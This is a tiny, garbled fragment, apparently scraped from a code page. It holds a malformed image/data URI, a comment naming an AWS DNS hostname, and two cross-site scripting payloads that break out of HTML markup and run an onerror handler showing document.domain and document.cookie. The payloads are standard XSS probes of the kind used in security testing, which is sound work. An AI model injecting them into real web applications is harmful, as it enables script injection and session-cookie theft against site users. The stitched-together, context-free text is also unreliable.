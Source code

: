 # ns-1761.awsdns-28.co.uk
 ">]<img src=x onerror=alert(document.domain)> ">]<img src=x onerror=alert(document.cookie)>
